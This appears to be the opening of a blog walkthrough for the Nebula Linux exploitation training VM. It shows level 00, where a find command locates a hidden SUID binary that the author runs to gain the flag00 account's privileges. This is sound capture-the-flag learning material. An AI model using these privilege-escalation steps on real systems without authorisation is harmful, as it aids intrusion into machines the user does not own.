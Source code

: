 ```yaml
---
layout: post
title: Nebula Walkthrough
---
```


Nebula is a virtual machine from [Exploit Exercises][exploit-exercises] that
goes through basic local Linux exploitation. Quoting from the website,

> Nebula takes the participant through a variety of common (and less than common) weaknesses and vulnerabilities in Linux. It takes a look at
> * SUID files
> * Permissions
> * Race conditions
> * Shell meta-variables
> * $PATH weaknesses
> * Scripting language weaknesses
> * Binary compilation failures
>
> At the end of Nebula, the user will have a reasonably thorough understanding of local attacks against Linux systems, and a cursory look at some of the remote attacks that are possible.

Most of the levels are basic but there are a few levels that goes through
interesting techniques. While there are already plenty of writeups for Nebula,
this blog post will document my attempt.

The sha1sum of the ISO I am working with is e82f807be06100bf3e048f82e899fb1fecc24e3a.

# level 00

This level requires us to find a Set User ID program that will run as the
“flag00” account.

We can do this with the `find` utility.

```shell
level00@nebula:~$ find / -user flag00 -perm -4000 -print 2> /dev/null
/bin/.../flag00
/rofs/bin/.../flag00
```

Running the `/bin/.../flag00` binary escalates us to the flag00 user.

```shell
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ whoami
flag00
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md